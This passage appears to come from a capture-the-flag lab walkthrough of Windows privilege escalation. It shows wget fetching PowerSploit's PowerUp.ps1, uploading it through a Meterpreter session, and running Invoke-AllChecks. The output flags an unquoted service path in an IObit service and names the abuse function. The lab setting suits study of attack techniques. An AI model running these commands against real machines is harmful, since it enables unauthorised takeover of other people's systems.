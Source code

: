 ## Privilege Escalation

Next, we aim to escalate our privileges. We'll use PowerUp, a PowerShell script from the PowerSploit framework, to identify potential privilege escalation vectors.

```bash
root@ip-10-10-95-132:~# mkdir workspace
root@ip-10-10-95-132:~# cd workspace/
root@ip-10-10-95-132:~/workspace# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
--2024-09-19 14:10:27--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 600580 (587K) [text/plain]
Saving to: \u2018PowerUp.ps1\u2019

PowerUp.ps1                                100%[=====================================================================================>] 586.50K  --.-KB/s    in 0.006s

2024-09-19 14:10:27 (97.6 MB/s) - \u2018PowerUp.ps1\u2019 saved [600580/600580]
```

Upload the script to the target machine and execute it.

```bash
meterpreter > upload /root/workspace/PowerUp.ps1
[*] Uploading  : /root/workspace/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /root/workspace/PowerUp.ps1 -> PowerUp.ps1
[*] Completed  : /root/workspace/PowerUp.ps1 -> PowerUp.ps1
```

```bash
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```